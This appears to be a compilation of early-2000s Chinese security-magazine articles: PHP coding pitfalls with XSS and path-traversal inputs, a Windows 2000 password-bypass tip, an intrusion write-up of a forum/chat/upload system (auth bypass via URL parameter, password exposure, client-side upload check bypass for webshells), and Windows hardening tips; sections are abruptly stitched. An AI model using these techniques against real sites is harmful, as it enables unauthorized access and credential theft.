PHP 的安全问题主要集中在用户提交的变量上，因为 PHP 这种语言为了和用户交互，必然要用户输入数据，并且把数据存为变量，然后程序再处理这些用户提交的信息，并且返回处理后的信息给用户，结果导致攻击者提交特殊的数据给程序，使程序错误运行，从而达到攻击者想达到的目的。

### 二、错误例子分析

#### 1. 一般回显变量的问题
例子：我最早写的 guestbook 就有这种问题。由于没有检查用户输入的数据，导致在显示这些数据的时候出现问题。由于编程者一般都检查用户直接输入的变量，而忽略对下拉框可选择的数据输入的检查，还记得原来那个 1h5k 的跨站脚本攻击漏洞吗？就是由于用户学历的输入用的是这种方式，而编写者又忽略了检查该变量，导致了跨站脚本攻击漏洞的出现。下面我就说说比较容易被忽视检查的变量。程序中有这么一段：

```html
<td width="360">
<select name="sex">
<option value="male">男</option>
<option value="female">女</option>
</select></td>
```

提交后会出现 `$sex` 这个变量，这个变量虽然是用户选择的信息，但是用户可以通过 URL 直接提交 `$sex` 这个变量来骗过程序。比如我通过 URL 提交：

```text
http://shocker.94bb.com/guestbook/guestbook.php?action=add&sex=<script>alert(document.cookie)</script>&...（省略一些变量）
```

程序得到提交后，不经过任何检查，就把我提交的信息显示出来：

```php
echo $sex;
```

结果，用户浏览的时候就会出现弹出窗口，显示用户的 Cookie，达到跨站脚本攻击的目的。

作为 PHP 程序的编写者，正则表达式你应该会吧？通过用正则表达式过滤用户提交的 `$sex` 变量，可以很好地避免这种错误，如 `eregi("[<>(),#|;+-=%$\\/]", $sex)`。如果该表达式成立，则终止程序的运行或者给出提示信息都是很好的办法，你可以在编程中多考虑一下，也可以根据自己的需要过滤更多的字符（当然，不要连正常运行都不可以了）。

#### 2. 函数中包含变量的问题
对 `file()`、`readfile()`、`fopen()`、`system()`、`exec()`、`eval()`、`passthru()`、`popen()`、`require()`、`include()` 等函数中如果包含有用户输入的变量，如，我编写过的一个文章管理程序中显示文章部分有如下代码：

```php
<?php
$article=@file("date/$filename");
for($i=1;$i<count($article);$i++)
{
    echo "$article[$i]"."<br>";
}
?>
```

当时我想，`date` 文件夹都指定了，还能有什么问题？其实不然，如果用户输入 `$filename=../../../../../../../../etc/passwd` 呢？通过几次尝试后就可以看到 `passwd` 文件，里面是所有用户名。当然，通过这种方式，所有的文件都可以浏览。感觉到危险了吗？所以，还是用正则表达式过滤比较好。而对于 `system()`、`exec()` 这类函数更应该注意，因为它们是可以执行命令的。

#### 3. 环境变量的问题
环境变量比较多，现结合我程序中的一个例子说一下 `$PHP_SELF` 这个变量引起的问题。我编的目录遍历程序中刚开始有这么一段：

```php
<?php
// ......
if (is_dir($file))
{
    echo "<a href='".$PHP_SELF."?dir=".$file."'>".$file."</a>";
}
?>
```

注意到这个 `$PHP_SELF` 变量了吗？你可能会觉得，这有什么问题呢？咱们可以在浏览器中输入如下链接：

`http://shocker.94bb.com/tools/dir.php/.../<script>alert('abc')</script>`

看到了吗？弹出了窗口显示 `abc`，说明能进行跨站脚本攻击了。这是由于 `$PHP_SELF` 变量被伪造的结果。本来 `$PHP_SELF` 变量应该是 `dir.php`，可当用户提交上述链接后，`$PHP_SELF` 变量就不是这个了，而是包括了 `/.../<script>alert('abc')</script>` 这些东西，结果显示出来就可想而知了。以前一直看到文章说某某程序由于包含了不安全的 `$PHP_SELF` 变量从而可以被攻击者绕过，初学者肯定也不太清楚为什么，通过上面的实际例子我想你应该明白了许多吧！

实例分析就先说这么多，其实 PHP 的安全编程问题不只这些，但是还没有发现实际的例子，所以就不给大家列举了，大家可以参考如下文章：

- http://shocker.94bb.com/tools/article/phpsecurity1.txt
- http://shocker.94bb.com/tools/article/phpsecurity2.txt
- http://shocker.94bb.com/tools/article/phpsecurity3.txt
- http://shocker.94bb.com/tools/article/phpsecurity4.txt

真正做到编写的程序相当安全还是很不容易的，要经过一段时间的学习与实践，相信大家经过实践都可以提高自己的 PHP 程序的安全性。

### 忘记密码也能登录 Windows 2000

对于装有 Windows 98 与 Windows 2000 双系统的用户来说，如果不小心忘记了密码，造成无法登录 Windows 2000 时，只需用启动盘启动电脑或引导进入另一操作系统，找到文件夹 “X:\Documents and Settings\Administrator”（X 为 Windows 2000 所在磁盘的盘符），将此文件夹下的 “Cookies” 文件夹删除，然后重新启动电脑，即可以空密码快速登录 Windows 2000。为安全起见，用户可重新设置密码。

### 浅谈网站文件的管理

文/karlarso

做一个网站需要一大堆文件，那么，如何合理管理这些文件，将成为一个重要的问题，下面看看karlarso是怎么进行管理的，相信会对大家有所帮助。

辛辛苦苦做好一个网站，弄出一大堆的文件，要是对这些文件管理得不好，日后维护的时候可就麻烦了。在这里，笔者凭着自己的一点经验，给大家谈一下网站文件的管理问题。

### 一、文件的命名

首先要给文件和文件夹取一个好名字，好让自己知道哪些文件有什么用。这一步很重要，有些人往往不注意，随随便便就取一个文件名，时间长了，也就不知道哪些文件有用，有什么用，哪些文件没有用了。因此我们一定要养成认真给文件命名的好习惯。

另外要注意几点：

- 1. 尽量采用英文、数字、符号结合的文件名，不要采用中文文件名，因为许多浏览器和服务器不支持中文文件名。
- 2. 注意默认首页的文件名。对于不同的服务器，默认首页的文件名是不同的。例如 index.htm、index.html 等。如果默认首页文件名不正确，网站将不能使用域名直接访问。关于详细的默认首页文件名，可以询问你的服务器提供商。
- 3. 文件名的大小写。与 Windows 类的主机不同，UNIX 类的主机对大小写敏感。比如 abc.htm 和 ABC.htm 对于 Windows 类的主机是同一文件，但是对于 UNIX 类的主机就是两个不同的文件。如果你使用的是 UNIX 类的主机，就要注意文件名的大小写。

### 二、文件布局

所谓文件布局，就是指怎么样把文件放在适当的位置、适当的文件夹里，方便日后维护网站，对文件进行管理。当然，不能把文件全部堆在根目录下，我们需要按照一定规律建立一些文件夹，把文件按类别放在相应的文件夹里，这样就方便管理了。通常我们根据两种规律建立文件夹：文件类型和网站栏目。

按文件类型，简单说来就是把 HTML 文件放在一个 HTML 文件夹，图片放在一个图片文件夹，MP3 放在一个 MP3 文件夹里等等，按照文件的类型，相同类型文件放在同一文件夹。

按网站栏目，就是按照你的网站的栏目来建立文件夹，每个栏目建立一个文件夹，将同一栏目中的文件集中放在同一文件里。

两种方法各有优点和不足，我们通常都是两种方法结合使用，尽量做到方便管理。

由于一个网站通常有其他的组件，例如文章管理系统、文件下载系统、论坛、留言簿等。如果是把这些程序安装在自己的服务器上，文件的布局也应该讲究一下。只要使不同程序之间的文件不发生冲突，各个文件有独立的运行目录就可以了。

对于 CGI 程序要特别说明一下，一般的主机都有一个独立的 cgi-bin 文件夹来运行 CGI 程序，放在其他的目录是不可运行的。详细的情形会由于主机和程序的不同而不同，大家最好向自己的服务器提供商索取相关资料并仔细阅读文件说明，在对文件布局时，也应当将这一点考虑进去。

### 三、相关技巧

下边再说一些小技巧，可以方便维护管理，也可以方便访问者浏览你的网站。

- 1. 许多人都喜欢按照栏目分类以后，在相应的文件夹下面建立默认首页，这样就可以用域名加文件夹名来访问，如 http://www.cnyimeng.com/txt （下面所讲内容以此为例）。前面说到 UNIX 类的主机对文件大小写敏感，如果使用 HTTP://WWW.CNYIMENG.COM/TXT 就不能访问到 http://www.cnyimeng.com/txt，那么岂不是要建立两个相同内容的文件夹？其实没有这个必要，这样做也不方便日后的维护。我们可以在 txt 文件夹里面建立我们的栏目，然后建立 TXT 文件夹，里面的默认首页自动转向 http://www.cnyimeng.com/txt 就可以了。用一个转向的页面就可以实现，网上有许多代码，大家不想找的话就用下面这个吧：

```html
<script>top.location="http://www.cnyimeng.com/txt"</script>
```

其中的 http://www.cnyimeng.com/txt 改成你要转向的地址。将上面的代码保存成 HTML 文件就可以了。

- 2. 多页面的相同部分调用同一个文件，这也是很实用的技巧。例如每个页面的页头、页尾都是相同，要做改动的话，每个页面都进行修改就很不方便，这样我们就可以在页面相同的部分调用同一文件，那样只要改动一个文件，所有页面的相应部分都会被修改。通常做法有两种：链接 JS 文件和使用分帧（如果有可能，使用 ASP、CGI 等程序，效果更好）。大家如果不会的话，可以在网上搜索相应的教程，这里就不说详细方法了，因为内容比较多，只简单说一下基本思路。

网站文件管理会涉及到很多方面，本文只是简单地谈谈对文件管理的经验和技巧。

---

对于论坛的攻击，其实已经出了不少的文章。动网论坛的漏洞、跨站脚本攻击等等，然而假如你登录了一个以前不曾研究过的论坛，如何才会发现它存在着安全缺陷呢？这或许是平时增加知识量、接触新问题的最好学习方法——研究！本文作者就通过从不熟悉开始一步步了解，进一步分析，到最后发现漏洞，并且得出修补措施，是一篇很好的“现身说法”的漏洞分析文章。

### 一次疯狂的安全检测及修复方法

文／Torune

**声明：** 本文主要是以教育为目的，请勿利用文中提及的内容做任何违法行为，否则后果自负。

### 一、资料收集

前些日子在一个规模比较大的网络社区呆了一段时间，对它的安全性产生了一些兴趣。

首先，笔者所做的是收集一些系统资料，我们可以使用 Nmap 来对远程主机进行操作系统以及开放端口的一些资料收集。

```bash
X:\Attack\nmap>Nmap -sS -O -vv www.fakesite.com
```

使用 SYN 方式对其进行端口扫描返回的资料很多，主要开放的端口是 80、3306，并且远程为 Windows 2000 Server 操作系统。

因此，可以确定对方管理员是使用 PHP + MYSQL（似乎他还选择了 Apache）。

以下为该网站的主要框架：让我们继续获取系统资料，而论坛则是个获取资料的好地方。

它所有帖子的浏览地址均为 `http://www.fakesite.com/forum/guest_book.php?user_number=ID号`。由于该论坛的程序编写方面存在一些问题，没有对 ID 号进行限制。

因此，我在 IE 浏览器中输入 `http://www.fakesite.com/forum/guest_book.php?user_number=99`。

在试图连接 ID 号为 99 的论坛时，该论坛的代码发生了错误。

```text
Warning: Supplied argument is not a valid MySQL result resource in
d:\home\fakesite.com\forum\guest_book.php
on line 300
```

从上面的内容我们得知了远程主页的绝对路径。根据上面的这些信息，再加上现在很多网站都不是自己开发论坛或者聊天室，而是使用一些免费代码等等，此时我的鼻子似乎闻到了一点点漏洞的气味。果然，在论坛的帮助文件中，我得知了该论坛的真实名称——Demon Board。

下面要做的就是收集到该论坛的源代码。Google.com 就是一个不错的选择，不一会儿我就得到了一个可用的下载地址，不过似乎是个修订版。不过，从该修订版的说明文件来看，修订作者似乎没有对该论坛的代码做多大的改写。

### 二、程序测试

下载完程序代码后，我做的第一件事就是查看管理区是否存在安全问题。

管理区的登录口是 admin.php 文件，而核心设置区的文件为 manage_setup.php（通过该文件能够修改管理员的账号和密码）。

以下为这两个文件的主要代码：

**管理区登录页面（admin.php）**

```php
@session_start();
include("./lib/lib-mysql.php");
include("./lib/lib.php");
require("./lib/setup.php");
if($submit)
{
    if($username!=$super_ad || $pwd!=$super_pwd)
    {
        error("用户名或密码错误");
    }
    else
    {
        $pass="OK";
        session_register("pass");
        succ($username."您的身份已经被确认, 请稍候, 正在进入论坛管理页面", "guest_class-admin.php");
    }
}
```

**核心设置区（manage_setup.php）**

```php
@session_start();
include("./lib/lib.php");
if(empty($pass))
{
    echo "<meta http-equiv=\"refresh\" content=0;url=./admin.php>";
    exit;
}
```

从上面这个流程示意图来看，该论坛的作者还有蛮有心计的——利用 Session 来管理用户的登录，而不是 Cookie，从而从一定程度上防止了由于程序设计而带来的跨站攻击（当然，这只是一小部分，用户名和密码是不会被截取到，而如果有人扩展了跨站攻击的话，例如利用 IE 的各种问题，给浏览该论坛的用户种植键盘记录器，甚至木马。那么后果就不堪设想了）。

然而，这样的流程和程序设计也是存在着很大缺陷的。是的，admin.php 的安全设置完全正确，我们无法跳过发送完表格以后的那些限制。但是 manage_setup.php 这个就不一定了。首先，他没有对 $pass 做声明，因此我们只要为 pass 提交一个值，例如 OK。就可以满足上面那个简单的认证，而获得该页面的所有内容。

其利用方法为：在 IE 浏览器中查看 `http://url/manage_setup.php?pass=ok`

这样，我们就成功地对 $pass 做了个声明，使 $pass=ok，而 empty($pass) 由于 $pass=ok 而满足不了条件，因此我们就成功地跳过了该程序开始的那个 if 函数的设置。

让我们继续分析 manage_setup.php 这个文件。在代码中，我们可以看到有这么一段代码：

```html
<tr bgcolor="#E8E8E8">
  <td align="right" width="26%">管理员</td>
  <td colspan="3">
    <input type="text" name="id" value="<? echo $super_id ?>" size="10" style="BACKGROUND-COLOR: lightyellow; BORDER-BOTTOM: black 1px solid; BORDER-LEFT: black 1px solid; BORDER-RIGHT: black 1px solid; BORDER-TOP: black 1px solid;">
  </td>
</tr>
<tr bgcolor="#E8E8E8">
  <td align="right" width="26%">管理员密码</td>
  <td colspan="3">
    <input type="text" name="pwd" value="<? echo $super_pwd ?>" size="10" style="BACKGROUND-COLOR: lightyellow; BORDER-BOTTOM: black 1px solid; BORDER-LEFT: black 1px solid; BORDER-RIGHT: black 1px solid; BORDER-TOP: black 1px solid;">
  </td>
</tr>
```

**测试方法：** 在新窗口中打开帖子修改，然后在该 URL 后面添加 `&username="用户名"&pwd="密码"&submit="确定"`，只要把用户名和密码替换成任何一个正确的用户资料，然后发送就可以进入帖子修改页面了。

有问题的代码如下：

```php
if($submit)
{
    $pwd = base64_encode($pwd);
    $user_search_query = mysql_query("select * from user_info where username='$username' and password='$pwd'");
    if(mysql_num_rows($user_search_query) == 0)
    {
        error("您还未注册或者用户名和密码错误！");
    }
    else
    {
        $guest_edit_pass = 1;
    }
}
```

大家都应该认为这段代码没问题吧。是的，理论上它是没有任何问题的，但是由于在开头作者使用了 `$fp = fopen("./lib/setup.php","w+")` 这段代码，读取了 `setup.php` 里面的数据。

这样使得后面的 `<? echo $super_id ?>` 以及 `<? echo $super_pwd ?>` 将会直接显示出 `manage/lib/setup.php` 里面所包含的管理员的登录账号和密码。

就这样，由于论坛的作者在程序设计方面的想法还不够严密，从而导致该论坛管理员的用户名和密码落到了非法提交者的手中，从一定程度上构成了对该论坛数据的严重威胁。

（有时候，有些管理员由于懒惰，而往往把自己邮箱、数据库，甚至服务器的用户名和密码均设置成相同或者类似的。例如：有个管理员的邮箱密码为 `whoami`，而服务器密码往往会是 `whoami` 或者 `whoami123` 之类。如果有个恶意用户通过非法途径获得了该管理员的 1 个密码，他往往可以通过这个密码进而获得更大的权限。）

顺便要提一下的是，Demon Board 在文章处理方面还存在着严重的安全漏洞。由于在处理人员登录验证方面缺乏完整性，导致非法人员通过构造一个特殊的请求，可以对该论坛的任何人员发表过的帖子进行处理，从而危害了该论坛所有用户的正常利益。

作者只是简简单单地对用户名和密码做验证，而忽略了该用户是否是原发帖人的验证，从而导致了该安全问题的存在。

### 三、安全检测

分析完论坛后， I 开始从聊天室入手。

先注册个名为 Torune 的用户，填写完一切需要的东西后，在最后返回的一页中我看到了 1 个链接。

通过那个链接，我们可以修改自己的个人资料和密码，而此时引起我注意的是 IE 浏览器上面的地址。

该地址为：`http://www.fakesite.com/chat/users/modify.php?user=Torune`

进入该页面后，我发现这个 `modify.php` 文件犯了和刚才那个 `manage_setup.php` 同样的错误，直接把密码、取回密码的问题和答案直接显示出来了。

而当我把 `user=` 后面的名字改为管理员的时候，IE 浏览器返回的居然是那个管理员的密码等重要资料。

一个重要的安全隐患又再次出现。在参考其他 `PHP+MYSQL` 格式的聊天室后，我推断 `modify.php` 的源代码应该是这样的：

```html
<html><head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>修改个人资料</title>
</head>
<body>
<?php
if($user=='')
{
  echo "用户资料修改失败！";
}
else
{
  require("关于MYSQL连接时设置文件");
  $uinfos=$DB_site->query("SELECT username,password,email,question,answer,comment FROM user where username='".$user."'");
  if(!$info=$DB_site->fetch_array($infos))
  {
    echo "没有找到指定的用户资料。";
    exit;
  }
  else{
    /* 用户资料修改页面的内容，代码省略 */
  }
}
?>
</body></html>
```

也许我推断的代码是错误的，但是该聊天室的作者只是简简单单地通过对用户名的处理，而不加任何登录验证，这一个重要的安全隐患却不容我们忽视。还有安全问题的地方就是聊天室方面还存在有 Javascript 代码限制不完善等问题。由于无法得到程序源代码，我在这里就不继续对该聊天室进行分析了，不过能得到任何的密码，已经能够对正常用户构成很大的威胁了。

好了，现在让我们再看看该网站的其他方面是否也存在安全问题。该网站这段时间提供给网友每人 10M 的空间，用来给各位网友做个人主页。

就让我们来看看这个上传系统是否有问题，注册了个叫 Torune 的账号，登录上传页面。虽然是限制了鼠标右键，并且是小窗口，不过这一切都是无法隐藏上传页面的源代码的。果然，又一个安全隐患出现，该漏洞导致用户可以上传任意文件。

出现问题的代码如下：

```javascript
function Checkvalue(the)
{
  var yes=true;
  if((the.username.value=='' || the.password.value=='' || the.primarykey.value=='' ))
  {
    alert('表单里标*的项目必须填写完整！');
    yes=false;
  }
  
  var fileext=the.primarykey.value.substring(the.primarykey.value.length-4,the.primarykey.value.length);
  fileext=fileext.toLowerCase();
  if(!((fileext=='.htm' || fileext=='.html' || fileext=='.gif' || fileext=='.jpg' || fileext=='.js' || fileext=='.css')))
  {
    alert('对不起，不正确的文件后缀，必须为 .htm .html .gif .jpg .js 或 .css！');
    the.primarykey.focus();
    yes=false;
  }
  return yes;
}
```

管理员只使用 Javascript 对上传的文件做限制，而没有从 PHP 代码下进行限制。

我们只需要把那个网页下载到本地后，修改源代码中的 `if (!(fileext=='.htm' || fileext=='.html' || fileext=='.gif' || fileext=='.jpg' || fileext=='.js' || fileext=='.css'))`，将其修改成 `if (!(fileext=='.htm' || fileext=='.html' || fileext=='.gif' || fileext=='.jpg' || fileext=='.js' || fileext=='.css' || fileext=='.php' || fileext=='.asp'))`。

并且修改 FORM 里头 action 的地址为 `http://www.fakesite.com/homepage/user/upload.php`。这样，我们就把这个简单的限制突破了，接下来我们就可以随意上传 webshell 了。

我首先上传了一个 PHP 文件，用来刺探主机信息。代码很简单：

```php
<?php
phpinfo();
?>
```

在 IE 浏览器返回的资料中，我们很成功地收集到一些重要资料，例如：

- `_Server["PATH_TRANSLATED"]`: `F:\www\home\homepage\torune\phpinfo.php` // 这个就是我这个程序在对方主机上面的物理位置
- `_Server["APPL_PHYSICAL_PATH"]`: `F:\www\` // 这个就是对方网站在其主机上面的物理位置

因此，我又上传了这个 PHP 程序，以方便以后上传文件。

#### 系统进程

- **System Idle Process**：系统空闲进程。在 Windows NT/2000 下，这个进程的 PID 都是 0，这个进程的作用在上面已经有过描述。
- **System**：系统进程。在 Windows NT 下，这个进程的 PID 是 5，在 Windows 2000 下，这个进程的 PID 是 8。这个进程实际上并不是用户态（用户态——在 Windows NT/2000 下，系统分为核心层和用户层，我们所能看到的程序，包括木马等有害程序，都是运行在用户层的）的进程，是所有运行在核心态的“系统线程”的宿主，或者可以说是运行在核心态的“系统线程”的用户态表示。
- **Smss**：会话管理器进程。映像文件：`\SystemRoot\System32\smss.exe`（SystemRoot 为系统的安装路径，例如你的 Windows NT/2000 如果安装在 `C:\Winnt` 目录下，那么 SystemRoot 就代表 `C:\Winnt` 这个目录）。它是系统创建的第一个用户模式进程。它负责运行子系统进程（一般为 Csrss.exe）和 Winlogon 进程，然后创建其他系统进程。
- **Csrss**：客户服务器 RunTime 进程。映像文件：`\SystemRoot\System32\Csrss.exe`。负责环境子系统的支持，实现 Win32 子系统的一部分，实现诸如控制台（文本）窗口、创建删除进程与线程、支持 16 位虚拟 DOS 机（VDM）进程的部分等。
- **Winlogon**：Windows 2000 登录进程。映像文件：`\SystemRoot\system32\winlogon.exe`。处理交互式登录与退出。
- **Lsass**：本地安全验证服务器进程。映像文件：`\SystemRoot\system32\lsass.exe`。接收来自 Winlogon 进程的验证请求，并调用合适的验证程序包来执行实际的验证。
- **Services**：服务控制管理进程。映像文件：`\SystemRoot\system32\services.exe`。负责用户模式的服务（用户模式的服务——Windows NT/2000 下的服务，类似 UNIX 系统下的“守护进程”，是实现一定特定功能的可以在进入系统前就自动运行的程序）的启动、停止和与用户模式服务的相互作用，它本身提供许多用户模式的服务。

### 常见的用户模式服务进程：

**Svchost**：这个叫做 Service Host 的进程包括多种服务。因为这个服务程序可以有多个实例运行在不同的进程中，所以在当前的进程列表中可能包含多个 Svchost 进程，其区别就是带有不同的运行参数。常见实例如下：

- **映像文件**：`\SystemRoot\System32\svchost.exe -k netsvcs`
  **功能**：创建网络连接，如访问网络共享：`\\ServerName`。
- **映像文件**：`\SystemRoot\System32\svchost.exe -k rpcss`
  **功能**：提供终结点映射程序（endpoint mapper）以及其他 RPC 服务。
- **映像文件**：`\SystemRoot\System32\svchost.exe -k netsvcs`
  **功能**：管理可移动媒体、驱动程序和库。
- **映像文件**：`\SystemRoot\system32\svchost.exe -k netsvcs`
  **功能**：跟踪系统事件，如登录 Windows、网络以及电源事件等。
- **映像文件**：`\SystemRoot\System32\svchost.exe -k tapisrv`
  **功能**：提供 TAPI 的支持，以便程序控制本地计算机、服务器以及 LAN 上的电话设备和基于 IP 的语音连接。

以上所描述的进程有可能存在任何一个 Windows 2000 的系统中，其中系统进程必然包括在每一个默认安装的 Windows 2000 系统中。

## 3. 合法的进程

那么，我们该如何区分哪些进程是合法的进程呢？一般情况下，由于 Windows 2000 的文件保护功能（Windows 2000 对其系统文件进行实时的监控，如果发现被替换或修改，那么它将会用系统保留的原始版本把被替换的系统文件恢复回来），其提供给我们的进程应该是安全的，如上面第 2 节描述的那些进程，但也不能忽视对其的检查。

### 文件保护
首先你应该检查当前系统的文件保护功能是否开放，打开注册表管理器，查看下面注册表路径：
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`

键名：**SFCDisable**。如果其键值为 `0FFFFFF9DH`，那么你要当心了，这个键值可以完全屏蔽 Windows 2000 的文件保护功能。如果你确认你没有更改过，那么可能有的系统文件已经被病毒或者木马改写了，请立刻用最新的杀毒软件对系统进行查杀。

其次，你应该检查所有服务的映像文件位置。例如服务进程 Svchost 的位置应该是 `\SystemRoot\System32\svchost.exe`。如果发生了变化，那么就可以认为是木马改变了映像文件的位置，用以绕过 Windows 2000 的文件保护功能，并且这个服务的映像文件极有可能已经被木马改写了。请立即停止这个服务，并在注册表中查找以下路径：
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service`

查找映像文件发生变化的服务，改变其映像文件为系统默认的路径。

由于 Windows 2000 的良好保护功能，系统服务被替换一般情况下比较少见，最常见的是在进程序列中发现十分陌生的进程。通过第 1 节介绍的工具，我们可以详细地查看系统中存在的每一个进程，包括你安装并运行的应用软件，如 QQ、Foxmail 等，并可以查看其映像文件的路径。你应该养成对系统中每一个由自己安装的应用软件的位置、是否开机自动运行等特征进行记忆的好习惯。这样，通过观察进程列表，如果发现一个从没有见过的进程，其映像文件的路径你也从没有用过，就可以发现大多数的木马程序。

#### 附：常规系统开放端口和映像文件列表

这里查看系统开放的端口和映像文件的对应列表使用的应用程序是 Foundstone 出品的免费软件 Fport。

| 协议 | 端口 | 映像文件（进程） |
| :--- | :--- | :--- |
| TCP | 135 | System 进程 |
| TCP | 139 | System 进程 |
| TCP | 445 | System 进程 |
| TCP | 500 | Svchost 进程 |
| UDP | 445 | System 进程 |
| UDP | 4000 | OICQ 进程 |

系统在上网的时候还可能开放类似 1025、1026、10xx 的端口，通过 Fport 查看，可以看到是 IE 打开的。通过 Fport，我们可以详细查看系统中都有哪些进程开放了端口。如果有你不认识的进程开放了端口，那么也极有可能是木马开放的，应该终止那个开放端口的进程，并对其映像文件进行检查。

其实，要区分恶意进程和系统进程并不是很困难，用一个好的工具，加上一点点头脑，很容易就可以抓出系统中非法的恶意程序来。

> 编者后记：一直以来对 Windows 2000 的系统进程只是有一个模糊的概念，也有不少朋友问及一些相关的知识，但是总感觉不知从何说起。看完作者的这篇文章，感觉真的很透彻，简单明了，非常容易理解和学习，因此就将他推荐给和我一样对 Windows 2000 系统进程有困惑的朋友们。

### 名词解释

- **UUCP**：UUCP（UNIX to UNIX Copy）是一个较旧但是仍很重要的协议，这个协议仍然是电子邮件和网络新闻交换的方法之一。
- **UBE 和 UCE**：UBE（Unsolicited Bulk Email），UCE（Unsolicited Commercial Email），不请自来的批量电子邮件，俗称垃圾邮件。
- **Apache**：流行的 Web 服务器软件。
- **Active network（活动网络）**：活动网络中的结点可以针对结点上传输的信息进行自定义的操作。例如，结点可以根据不同的用户对数据包进行处理。活动网络机制对于活动网络的用户可能更显重要。

### Windows 2000 安全小窍门
文/小军

### 1. 给系统打补丁
Windows 2000 Server 一定要安装最新的补丁 Service Pack 3，主要是为了修补 Windows 2000 Server 的安全漏洞。

### 2. 设置系统格式为 NTFS
选择 Windows 2000 文件系统时，应选择 NTFS 文件系统，充分利用 NTFS 文件系统的安全性。NTFS 文件系统可以将每个用户允许读写的文件限制在磁盘目录下的任何一个文件夹内，而且 Windows 2000 新增的磁盘限额服务还可以控制每个用户允许使用的磁盘空间大小。因此，要将所有的磁盘分区转换成 NTFS。

### 3. 去掉不必要的协议和服务
安装 Windows 2000 时，应选择自定义安装，仅选择个人或单位必需的系统组件和服务，取消不用的网络服务和协议，因为协议和服务安装越多，入侵者入侵的途径越多，潜在的系统安全隐患也越大。除非特别需要，否则禁用“Task Scheduler”、“RunAs Service”服务！关闭服务的方法很简单，运行 cmd.exe 之后，直接执行 `net stop servername` 即可。

### 4. 加密文件或文件夹
为了防止别人偷看系统中的文件，我们可以利用 Windows 2000 系统提供的加密工具。在“Windows 资源管理器”中，右键单击想要加密的文件或文件夹，选择“属性”。在“常规”选项卡上单击“高级”，然后选定“加密内容以保证数据安全”复选框。

### 5. 取消共享目录的 Everyone 组
在默认情况下，Windows 2000 中新增一个共享目录时，操作系统会自动将 Everyone 这个用户组添加到权限模块当中。由于这个组的默认权限是完全控制，使得任何人都可以对共享目录进行读写。因此，在新建共享目录之后，要立刻删除 Everyone 组或者将该组的权限调整为读取。

### 6. 禁止建立空连接
黑客们经常采用共享进行攻击，其实不是它的漏洞，只怪管理员的账户和密码太简单。可以通过修改注册表禁止建立空连接：
`[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\LSA]`
`RestrictAnonymous=DWORD:00000001`

### 7. 禁止管理共享
同样可以通过修改注册表来禁止管理共享：
`[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters]`
`AutoShareServer=DWORD:00000000`

### 8. 通过用户和口令保安全有局限性
用户经常挑选非常浅显的口令，如名字、生日、电话号码等，容易被猜测出来。在 WWW 服务器上，不像 UNIX，在多次未成功猜测后并不会发出警告。此外，口令从浏览器向服务器传送时容易被截取。以任何有意义的方式都无法对其加密，所以具有一定软件和硬件经验的黑客，当口令通过 Internet 传输时可以截获它。此外，一个口令在此进程只能通过 Internet 进行一次登录，而浏览器每发送一个口令，就获取一个被保护的文档。当它流过 Internet 时，一个黑客能容易地窃取所传送的数据。为避免这种情况，必须对口令等数据加密。

### 9. 改进登录服务器
将系统的登录服务器移到一个单独的机器中会增加系统的安全级别。在大的 Windows 2000 网络中，最好使用一个单独的登录服务器用于登录服务。在这个系统上应该没有其他的服务运行。更安全的登录服务器会大大削弱入侵者透过登录系统篡改日志文件的能力。

### 10. 使用好安全机制
严格设计管理好 Windows 2000 系统的安全规则，包括“密码规则”、“账号锁定规则”、“用户权限分配规则”、“审核规则”以及“IP 安全规则”。合理对用户分组是进行系统安全设计的最重要基础。利用安全规则可以限定用户口令的有效期、口令长度、设置登录失败锁定次数，并对各项行为进行有效控制。

### 11. 对系统进行跟踪记录
启动 Windows 2000 的日志文件来监视攻击活动。我们必须限制对日志文件的访问，禁止一般权限的用户查看。当然，系统中内置的日志管理程序功能可能不是太强，可以采用专门的日志程序。另外，要小心保护好具有根权限的密码和用户，防止黑客修改日志文件来隐藏踪迹。

### 12. 使用好登录脚本
制定系统策略和用户登录脚本，对网络用户的行为进行适当的限制。利用系统策略编辑器和用户登录脚本为用户设定工作环境，控制用户在桌面上进行的操作、执行的程序以及登录的时间和地点，可以进一步增强系统的安全性。

### 13. 经常检查系统信息
如果发现计算机工作异常，应立即按 `Ctrl+Alt+Del` 查看是否有未知程序在运行。有些程序（如 Back Orifice）并不显示在进程列表中，此时可以运行“系统工具”→“系统信息”→“软件环境”→“正在运行任务”，在任务列表中寻找不熟悉的程序并立即终止。

### 14. 使用安全策略
安全策略用于配置本地计算机的安全设置，包括密码策略、账户锁定策略、审核策略、IP 安全策略等。这些策略主要针对本地用户设置，在非域控制器的 Windows 2000 计算机上非常有用。

### 15. 设置好系统的安全参数
充分利用 NTFS 文件系统的本地安全性能，设计好文件和目录的读写、访问权限。对不同组的用户赋予最小的必要权限。对于网络资源共享，应对不同的组和用户分别授予拒绝访问、读、更改和完全控制等权限。

### 16. 使用审核机制
审核机制是 Windows 2000 用来跟踪访问文件、用户账户登录尝试、系统关闭重启等事件的安全特性。应对所有需要审核的用户使用审核机制。目前，磁盘访问审核机制只能应用在 NTFS 文件系统之上。

### 17. 及时备份系统
为了防止系统故障，应该对 Windows 2000 完好的系统进行备份。以后可以根据这个备份来验证系统的完整性，发现系统文件是否被非法修改。备份信息可以存储在 CD-ROM 上，并定期进行比对验证。

---

## Windows XP 防漏洞：显“眼”防范有“巧”
文/王维平

微软曾夸耀说：“用 Windows XP 的用户将不再需要为网络访问安全担心”。可见 Windows XP 作为 NT 内核型的操作系统，其功能比以往任何一个 Windows 系统都强，但也出现了不少令人担忧的问题。

微软的 Windows XP 具有很多安全特性，但作为一个拥有 4000 万行代码的超复杂系统，存在漏洞是不可避免的，例如 UPnP 漏洞。此外，XP 的“激活”功能也引发了关于用户信息安全的争议。

针对目前比较有影响的 Windows XP 系统漏洞，做一个简单的论述：

### 一、Windows XP 的漏洞不可忽视

#### 1. UPnP 漏洞
